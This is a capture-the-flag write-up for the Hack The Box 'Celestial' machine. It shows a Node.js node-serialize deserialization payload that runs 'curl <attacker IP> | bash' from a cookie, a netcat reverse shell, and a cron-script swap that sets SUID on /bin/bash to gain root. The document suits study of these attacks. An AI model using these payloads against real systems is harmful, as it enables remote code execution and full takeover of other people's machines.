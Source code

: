 ```yaml
---
layout: writeup
category: HTB
date: 2024-12-29
comments: false
tags: deserializationattack scripting bash python node.js cronjob reverseshell
---
```


![Machine-Icon](../../../assets/images/Celestial/Celestial.png)


OS -> Linux.

Difficulty -> Medium.

# Introduction:

Hello hackers! Today we will be solving the Celestial Machine. An easy difficulty Machine in which we will have to exploit a deserialization attack in node.js that will allow us to gain access to the System. Once inside, we will carry out the privilege escalation by exploiting a Python script executed by root at time intervals in the system.

Without further ado, let's get to the first phase, the enumeration phase!

# Enumeration:

We start by running the typical nmap scan to see which ports are open:

```bash
❯ nmap -p- 10.10.10.85 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 19:31 CET
Nmap scan report for 10.10.10.85
Host is up (0.076s latency).
Not shown: 64449 closed tcp ports (reset), 1085 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.04 seconds
```


As we can see, nmap has only detected Port 3000 open, node.js default port, so we proceed to list it and find the following:


![1](../../../assets/images/Celestial/1.png)


At first glance, it doesn't seem interesting at all, but when intercepting the request with Burp Suite we find the following:

![2](../../../assets/images/Celestial/2.png)

# Node JS Deserilization 

The cookie appears to be in base64, so let's apply a decode:

```bash
❯ echo -n 'eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==' | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

Let's try to control the output of the page manipulating the cookie vault and resending it with Burp Suite:

```bash
❯ echo -n '{"username":"Clever","country":"TheBest","city":"Barcelona","num":"10000"}' | base64 -w 0
eyJ1c2VybmFtZSI6IkNsZXZlciIsImNvdW50cnkiOiJUaGVCZXN0IiwiY2l0eSI6IkJhcmNlbG9uYSIsIm51bSI6IjEwMDAwIn0=
```

![3](../../../assets/images/Celestial/3.png) 

We have been able! The server has interpreted the serialized data that we have sent it without any control. So if we build a malicious payload we can try to execute commands on the system.

## Crafting a Malicious Serialized Payload:

To probe our theory, we are going to craft a payload to receive a curl from the victim machine in a localhost server hosted in our port 8082.

To do this we will use a data serializer that we have taken from the following website -> [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

We run it to get the payload:

```bash
❯ js serialize.js
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl 10.10.14.13 | bash', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```

# IIFE (Inmediately Invoked Function Expression):

Well, we already have the Payload ready, but it's not all there yet. In order for the server to execute our command, we will have to enter the IIFE in our payload, otherwise, no command will be executed when the server deserializes our serialized data. 

For people who do not know what the IIFE is, here is a resource that will come in handy -> [https://www.geeksforgeeks.org/immediately-invoked-function-expressions-iife-in-javascript/](https://www.geeksforgeeks.org/immediately-invoked-function-expressions-iife-in-javascript/)

![4](../../../assets/images/Celestial/4.png)


Once the IIFE has been entered, we store the data in a file and apply a base64 decode:


```bash
❯ cat data | base64 -w 0
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtcbiByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCAxMC4xMC4xNC4xMyB8IGJhc2gnLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KTtcbiB9KCkifQoKCgoKCgoKCgoKCgoK
```

Now that we have the data, we go back to Burp Suite and replace the cookie, we set up a server with Python on port 8082, click on resend and... surprise!! We have received the curl from the Victim Machine!!

![5](../../../assets/images/Celestial/5.png)

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.85 - - [29/Dec/2024 21:30:34] "GET / HTTP/1.1" 200 -
```

As we have already verified the remote execution of commands, we proceed to create a index.html to be able to establish a reverse shell and gain access once and for all to the Victim Machine by repeating the previous process but listening with nc through port 443 of our Machine:

![6](../../../assets/images/Celestial/6.png)

Intrusion ready. Let's go for privilege escalation!

# Privilege Escalation: Sun -> root

We did some research on the system and upon launching pspy we found that root is running a cron task on the system:

![7](../../../assets/images/Celestial/7.png)

We list the permissions of the script.py that is running root:

```bash
sun@celestial:~/Documents$ ls -l
total 4
-rw-rw-r-- 1 sun  sun  29 Dec 29 11:16 script.py
lrwxrwxrwx 1 root root 18 Sep 15  2022 user.txt -> /home/sun/user.txt
```

As we can see, we own the script, so we proceed to delete it to create a malicious script so that when the cron task runs we can atribute SUID privilege to the /bin/bash.

## Malicious Script Content:

```python 
#!/usr/bin/env python3

import os

os.system("chmod 4755 /bin/bash")
```

Once we create the script, we wait a bit and when we list the /bin/bash we see that the SUID privilege was successfully attributed, so we can now become root!!

```bash
sun@celestial:~/Documents$ bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1000(sun) gid=1000(sun) euid=0(root) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Celestial Machine ready! I hope you enjoyed it as much as I did, greetings and keep hacking!!❤️❤️

